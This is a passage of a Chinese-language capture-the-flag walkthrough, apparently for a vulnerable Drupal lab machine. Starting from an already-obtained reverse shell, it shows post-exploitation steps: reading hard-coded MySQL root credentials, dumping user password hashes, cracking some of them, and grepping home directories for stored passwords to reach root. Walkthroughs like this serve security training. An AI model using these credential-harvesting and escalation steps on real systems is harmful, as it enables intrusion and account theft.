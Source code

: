 kali 上得到了反弹的 shell：

```
bash-3.2$ id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

先用 python 升级下 tty。

进行系统枚举，sudo、suid、getcap、crontab 等都发现可利用点。

经过在 /var/www/html 中查询，找到了数据库的配置连接:

```
$link = mysql_connect('localhost', 'root', 'mysqlpassword');
```

连接 mysql 数据库，看看数据库中，是否有可利用信息：

```
mysql> use drupal;

mysql> select name, pass from users;
+----------+----------------------------------+
| name     | pass                             |
+----------+----------------------------------+
|          |                                  |
| jennifer | e3f4150c722e6376d87cd4d43fef0bc5 |
| patrick  | 5f4dcc3b5aa765d61d8327deb882cf99 |
| andy     | b64406d23d480b88fe71755b96998a51 |
| loren    | 6c470dd4a0901d53f7ed677828b23cfd |
| amy      | e5f0f20b92f7022779015774e90ce917 |
+----------+----------------------------------+
```

其他几个数据库和其中的表没发现什么有用信息。这 5 个用户和/etc/passwd 中发现的 5 个用户可以对应上，可能就存在有密码是 ssh 密码的情况，看看能不能得到对应的明文密码。

发现 patrick:password lorenpass:lorenpass amy:temppass , 尝试 su 进行用户切换，但是发现这几个用户的 ssh 密码都不是，尝试失败。

看看寻找有没有 pass 存储的地方吧，经过 grep 查找，发现了 pass 存在的地方：

```
grep -Rn pass /home/* 2>/dev/null

/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:3:  <title>Root password</title>

</note>bash-3.2$ cat /home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note
<?xml version="1.0" encoding="utf-8"?>
<note version="0.2" xmlns:link="http://beatniksoftware.com/tomboy/link" xmlns:size="http://beatniksoftware.com/tomboy/size" xmlns="http://beatniksoftware.com/tomboy">
  <title>Root password</title>
  <text xml:space="preserve"><note-content version="0.1">Root password

Root password

50$cent</note-content></text>
  <last-change-date>2012-12-05T07:24:52.7364970-05:00</last-change-date>
  <create-date>2012-12-05T07:24:34.3731780-05:00</create-date>
  <cursor-position>15</cursor-position>
  <width>450</width>
  <height>360</height>
  <x>0</x>
  <y>0</y>
  <open-on-startup>False</open-on-startup>
```

su root 输入密码 50$cent 成功切换到了 root 用户。
